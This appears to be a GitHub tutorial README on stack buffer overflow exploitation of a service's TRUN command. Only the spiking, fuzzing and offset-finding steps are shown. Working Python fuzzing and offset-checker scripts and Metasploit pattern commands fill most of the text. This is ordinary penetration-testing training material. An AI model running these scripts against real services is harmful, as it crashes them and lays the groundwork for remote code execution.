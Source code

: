 ## Overview
1. Spiking
2. Fuzzing
3. Finding the Offset
4. Overwriting the EIP
5. Finding bad characters
6. Finding the right module
7. Generating shellcode

# 1. Spiking
Spiking allows us to find the functions/commands within a program that are vulnerable.

First, we attach the process unto our Debugger and then connect to it:

```bash
nc -nv PROCESS PORT
```
![image](https://github.com/0xScorpio/Ethical-Hacking/assets/140411254/9b63dcf6-11cb-4b21-996e-4deb42329361)

In our case, we see multiple functions that we could spike using:
```
generic_send_tcp 0.0.0.0 PORT spike.spk 0 0
```
![image](https://github.com/0xScorpio/Ethical-Hacking/assets/140411254/d2219e12-8268-4dd9-813c-7d9650f7d33f)

# 2. Fuzzing
Now that we know what the vulnerable function/command is, we can now 'fuzz' it in order to find the approximate memory location to where the program crashes.
In our example, the TRUN command/function was found to be vulnerable and thus we want to probe it with a set of simple buffers. 
You might need to modify the script with execution rights:

```python
#!/usr/bin/python3
 
import sys, socket
from time import sleep
 
buffer = "A" * 100
 
while True:
    try:
        payload = "TRUN /.:/" + buffer
 
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('TARGET-IP',TARGET-PORT))
        print ("[+] Sending the payload...\n" + str(len(buffer)))
        s.send((payload.encode()))
        s.close()
        sleep(1)
        buffer = buffer + "A"*100
    except:
        print ("The fuzzing crashed at %s bytes" % str(len(buffer)))
        sys.exit()
```

Once the program crashes, Control+C and check the bytes section.

# 3. Finding the Offset
Build the first section of the offset:
```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l NUMBEROFBYTES
```
and place the result into the following checker script:
```python
#!/usr/bin/python3

import sys, socket
from time import sleep

offset = "" #offset here

try:
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect(('TARGET-IP',TARGET-PORT))

	payload = "TRUN /.:/" + offset

	s.send((payload.encode()))
	s.close()
except:
	print ("Error connecting to server")
	sys.exit()
```

Run the script unto the running application until it crashes again.
![image](https://github.com/0xScorpio/Ethical-Hacking/assets/140411254/c2ce21e4-6006-47b7-9a38-117e1ca18701)

Find the EIP value and place it into the offset builder using the -q flag:
```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l NUMBEROFBYTES -q [EIP]
```
![image](https://github.com/0xScorpio/Ethical-Hacking/assets/140411254/67aa6a60-b997-4426-85bf-7c8207405e5c)

